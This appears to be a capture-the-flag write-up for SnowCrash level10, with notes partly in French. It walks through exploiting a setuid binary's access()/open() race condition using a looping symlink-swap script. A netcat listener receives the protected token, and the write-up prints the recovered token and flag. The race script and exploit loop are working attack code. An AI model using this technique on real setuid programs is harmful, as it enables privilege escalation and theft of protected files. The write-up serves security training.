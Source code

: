 # Level 10

</br></br>

## file list in home

```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

</br></br>

## execute file level10

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```
"./level10 file host" signifie que l'on doit mettre file et host en tant que parametre

</br></br>

## ltrace level10

```zsh
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

## strings level10

```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
...
...
```

Connecter à 6969, on a besoin d'écouter la porte 6969

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access

```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

on peut voir "security hole"!!!!!

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## symbolic link et race condition

faire fichier link
ce fichier est symbolic link pour open (level10) et pour executer (token)

```zsh
level10@SnowCrash:/tmp/link$ vim makeSymLink.sh
level10@SnowCrash:/tmp/link$ ls
makeSymLink.sh
level10@SnowCrash:/tmp/link$ chmod +x ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
```

```sh
#!/bin/bash

while true
do
  ln -fs ~/level10 ./link
  ln -fs ~/token ./link
done
```

</br></br>

## execute

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ while true; do ./level10 /tmp/link/link localhost:6969; done
```

```zsh
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link^C
```

```zsh
level10@SnowCrash:~$ nc -lk 6969
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
0����Lx���p��������������zR|
                            P���F
                                 J
��                                tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```

</br></br>

## get token

```zsh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```
